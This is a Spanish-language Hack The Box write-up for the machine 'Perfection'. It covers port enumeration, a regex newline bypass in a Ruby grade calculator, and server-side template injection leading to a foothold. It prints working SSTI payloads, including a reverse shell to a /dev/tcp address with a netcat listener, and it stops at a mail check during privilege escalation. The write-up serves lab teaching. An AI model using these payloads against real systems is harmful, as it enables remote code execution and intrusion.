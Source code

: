 #by d4l1

<h1 align="center">Perfection</h1>

<p align="center"><img  src="https://github.com/D4l1-web/HTB/assets/79869523/fc054059-74b6-4363-bb86-72efafd10b9f"></p>

# INTRODUCCIÓN

Perfection es una maquina Linux fácil, en la que contiene una aplicacion web con la funcion de poder calcular notas de estudiantes. La aplicacion web es vulnerable a (SSTI) via regex.

## ENUMERACIÓN

Bienvenidos a esta máquina. Como siempre haremos los dos comandos básicos, comprobar que tenemos conexión y el escaner de puertos.

![image](https://github.com/D4l1-web/HTB/assets/79869523/7e0bd8ef-0907-49d5-b55a-1a110fec0663)

Posteriormente haremos el escaner a ver que encontramos.

![image](https://github.com/D4l1-web/HTB/assets/79869523/1d590945-d1bf-4065-917b-68ae3af286a1)

Como podemos comprobar nos encontramos con dos puertos abiertos el 22 (ssh) y el 80 (http) en un servidor ngnix .

Tenemos más información porque nos dan la versión de ssh.
![image](https://github.com/D4l1-web/HTB/assets/79869523/9059dbab-66b5-4f44-b7dd-5da9f3d85fa0)

### HTTP

Si nos conectamos al servidor web, veremos un "weighted grade calculator" una herramienta pa los alumnos vamos. 

![image](https://github.com/D4l1-web/HTB/assets/79869523/a90ff5e5-7bd4-45a7-85f7-b16a2221ee8f)

Encontramos dos cosas importantes el lenguaje de programación "Ruby" y el framework que utiliza "WEBrick 1.7.0"

![image](https://github.com/D4l1-web/HTB/assets/79869523/774a6134-463a-4047-9e35-48d4bdd6cc9e)

Si nos vamos a la tercera pestaña nos encontramos con una calculadora, vamos a intentar poner datos reales para que no nos de error.

![image](https://github.com/D4l1-web/HTB/assets/79869523/00a3c90b-584f-4750-8e5a-e337a279db22)

Como entenderemos, al tener un boton Sumbit damos por hecho que tiene que ir a algun lado. Con lo cual utilizaremos BurpSuite para pillar la request y ver donde va.

![image](https://github.com/D4l1-web/HTB/assets/79869523/c3f659e9-ccc8-46dd-a334-2d53eb258424)

Mandamos la request que tneemos al Repeater del burp suite. y modificamos la request para ver que respuestas tiene.

![image](https://github.com/D4l1-web/HTB/assets/79869523/46db20a1-dd28-44b4-bc26-6f362d82eec5)

La forma en que nos da el output nos infica que hay un uso de tema, abriendo una posibilidad de un (SSTI). Obviamente en Ruby, utilizaremos un payload muy común en Ruby <%= %> dentro del campo "Category"

![image](https://github.com/D4l1-web/HTB/assets/79869523/3061c4a6-cd47-4189-8cae-ccee74ce4d20)

Vemos que por aqui no.

Ruby tiene el operador  =~

```
irb(main):003:0> "SampleText" =~ /^[a-zA-Z]+$/
=> 0
```
Como vemos, la string "SampleText" bsuca maches de la a-z y en mayuscula.

Sin embargo si nosotros insertamos una nueva linea dentro del input con algun caracter que no machee reglex, como { y intentar ver como interactuar.
```
irb(main):004:0> "SampleText\n{{}}" =~ /^[a-zA-Z]+$/
=> 0
```
Con una nueva línea: 
```
irb(main):008:0> "SampleText{{}}" =~ /^[a-zA-Z]+$/
=> nil
```
Sabiendo esto tenemos un potencial bypsas de Ruby.
```
test
<%= IO.popen("sleep 10").readlines() %>
```
Este payload hace que el servidor ejecture un sleep 10 haciendo que la página se duerma 10 segundos, indicando que funciona correctamente.

Dentro de "repeater" modificamos la request interceptada para incluid nuestro payload dentro de la categoria 1 manualmente incluimos una nueva linea usando URL-encoding.

![image](https://github.com/D4l1-web/HTB/assets/79869523/f028c0c4-5c73-4829-a709-0d645ff09d29)

Como podemos comprobar la página web se duerme durante 10 segundos. Indicando que al injección funciona.

En caso de querer hacer una reverse shell, inyectaremos este payload.

```
Test1
<%= IO.popen("bash -c 'bash -i >& /dev/tcp/10.10.14.2/4444 0>&1'").readlines() %>
```
Mientras abrimos obviamente un netcat
```
nc- lvnp 4444
```
![image](https://github.com/D4l1-web/HTB/assets/79869523/6986c51f-cd6f-41dc-a477-cfc04fe44db8)

![image](https://github.com/D4l1-web/HTB/assets/79869523/a802f914-e67d-4c04-a63f-2550ddfbc25f)

Estamos dentro!!

Si queremos una shell mas estable, podemos ejecutar 
```
script /dev/null -c /bin/bash
```

![image](https://github.com/D4l1-web/HTB/assets/79869523/9f85626c-bdea-422c-892f-d80719eb1f1f)

# ESCALA DE PRIVILEGIOS

Primero de todo enumeraremos el sistema

![image](https://github.com/D4l1-web/HTB/assets/79869523/c507ba21-0558-44ed-b84d-7701fad6f07e)

Vemos que estamos dentro del usuario "susan" pero estamos dentro del grupo "sudo" (requiere contraseña) necesitamos encontrar esa contraseña.

## GRUPO SUDO

EL grupo sudo es crucial para los privilegios porque los miembros de este grupo puede ejecutar cualqueir comando que quieran.

Primero de todo enumeraremos a ver si tiene algo dentro de su email

```
ls -la /var/mail
```
Nos encontramos con un archivo vamos a verlo.

![image](https://github.com/D4l1-web/HTB/assets/79869523/5573e43e-ef44-4ba4-a88a-3dfbb8ee7770)






